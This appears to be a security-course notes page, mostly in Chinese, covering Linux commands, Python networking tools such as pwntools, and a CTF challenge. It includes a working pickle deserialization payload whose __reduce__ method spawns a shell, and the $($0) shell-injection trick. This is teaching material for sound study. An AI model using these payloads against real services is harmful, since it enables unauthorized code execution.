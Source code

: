 # Slides
## Linux and System Admin
slides: [Linux_and_SA](Linux_and_SA.pptx)
 * **Linux Common Command**
  * `echo $0`: 印出目前在跑的process名稱
   * 如果是$($0) => $() 開啟shell，$0 => 就是shell！
   * 交大網路安全實務期末互打比賽，每個主機上有可以執行任何command的漏洞，大家都忙著寫script過濾command，據說很多人被```$($0)```打死XD
  * `touch`: create an empty file, `cat file`: print file content to stdout, `nc`: create TCP/UDP connection/listen, `cmd1 | cmd2`: pipe stdout of cmd1 as stdin of cmd2
 * **Kali Linux**：綜合了各種滲透測試工具的作業系統，Ubuntu的好親戚

## Python
slides: [Python](Python.pptx)
 * **Socket**： basic module for TCP/UDP connections
 * **Struct**：把byte包裝成little-endian 或是 big-endian的模組
 * **Pwntools**：有超多好用的工具
  * TCP/UDP connection：只要一行XD 還有interactive module
  * 寫shellcode, working with elf, gdb, memory leak, rop chain, translate assembly to string, ...

# Today's Vulnerable
pickle 是個可以把class serialized 和deserialized 的module，以下程式能叫出shell！
 ```python
  import pickle
  import os
  class Exploit(object):
    def __reduce__(self):
      comm = "sh"
      return (os.system, (comm,))
a = pickle.dumps(Exploit()) # searlized to String
b = pickle.loads(a) # desearlized from String
```
## Remark
 * deserialized回來時，需要告訴python 要怎麼還原回來，而這個還原方法就是在 ```__reduce__(self)```裡指定。
=> 也就是，反serialized時會call ```__reduce__(self)```
 *  ```__reduce__(self)``` 回傳的格式：[desearlized_function][argument to desearlized_function]
 => ```(os.system, (comm,))``` 會desearlized成 ```os.system("sh")```，***calling shell***!

# Get the Flag
1. [Pickle](Pickle)
 * server： ```nc 140.113.194.85 49167```
 * [server code](Pickle/spam.py)
 * Hint: pickle vulnerable
